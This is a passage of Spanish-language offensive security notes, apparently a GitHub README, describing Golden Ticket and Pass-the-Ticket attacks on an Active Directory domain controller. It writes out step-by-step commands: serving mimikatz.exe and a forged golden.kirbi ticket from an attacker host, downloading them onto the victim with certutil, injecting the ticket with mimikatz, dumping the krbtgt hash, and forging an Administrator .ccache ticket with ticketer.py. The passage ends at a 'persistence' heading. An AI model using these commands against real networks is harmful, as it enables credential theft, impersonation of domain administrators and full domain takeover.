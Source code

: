   ```
Compartimos archivos desde atacante: <br>
```python -m SimpleHTTPServer ```<br>
Transferimos los archivos en la víctima:<br>
```certutil.exe -f -urlcache -split http://IPatacante:8000/mimikatz.exe mimikatz.exe ```<br>
```certutil.exe -f -urlcache -split http://IPatacante:8000/golden.kirbi golden.kirbi ```<br><br>
  
#### PassTheTicket
Una vez temenos el GT podemos hacer un PtT. El ataque Pass-the-Ticket es un método para suplantar a los usuarios en un dominio de AD. AD generalmente usa Kerberos para proporcionar inicio de sesión único y SSO.<br><br>

 <b> Paso 3:</b> Ejecutamos el mimikatz.exe en la víctima <br><br>

  <b>Paso 4:</b> Desde Mimikatz, lanzamos el comando:<br>
```Kerberos::ptt Golden.kirbi```<br><br>

  <b>Paso 5:</b> salimos de mimikatz y listamos <br>
```
dir \\DC-Company\c$
dir \\DC-Company\c$\admin$ 
```
<br><br>

  
  ### Método 2: .ccache
Paso previo: Buscar archivo mimikatz.exe de 64 para subir a la víctima. Se sube la herramienta 
al equipo del DC para enumerarlo.<br><br>
  
<b>Paso 1:</b> En host del DC, moverse a cd <i>C:\Windows\Temp</i> <br><br>

<b>Paso 2:</b> Compartir servicio HTTP con Python <br>
```python3 -m http.server 8000 ```<br><br>

<b>Paso 4:</b> Transferir archivo (desde la víctima) <br>
```certutil.exe -f -urlcache -split http://IPatacante:8000/mimikatz.exe mimikatz.exe ```<br><br>

<b>Paso 5:</b> Ejecutar mimikatz.exe <br><br>

<b>Paso 6:</b> Dumpear la info de krbtgt para realizar un PassTheTicket <br>
```lsadump::lsa /inject /name:krbtgt ```<br>

<br>

<b>Paso 7:</b> Guardamos en data.txt toda la info generada. Con ESC + i, respeta el sangrado. <br>
-nthash <br>
![image](https://user-images.githubusercontent.com/109160484/211400083-af23ed69-1e33-4c9d-b74c-ed596e9df490.png)<br>

-domain-sid<br>
![image](https://user-images.githubusercontent.com/109160484/211400240-047ad063-f7b8-4af0-8118-8445c28c6b48.png)<br><br>


<b>Paso 8:</b> Abusamos de ticketer. py para crear un archivo .ccache <br>
```ticketer.py -nthash [hashNTLM] -domain-sid [DomainSID] -domain dominio.local Administrador ```<br>
Esto nos guarda Administrador.ccache <br>
![image](https://user-images.githubusercontent.com/109160484/211400574-cebfd3c5-d98c-42b6-842b-5b262a7ff6f2.png)
<br><br>
  
### Persistencia al DC: <br>
  
```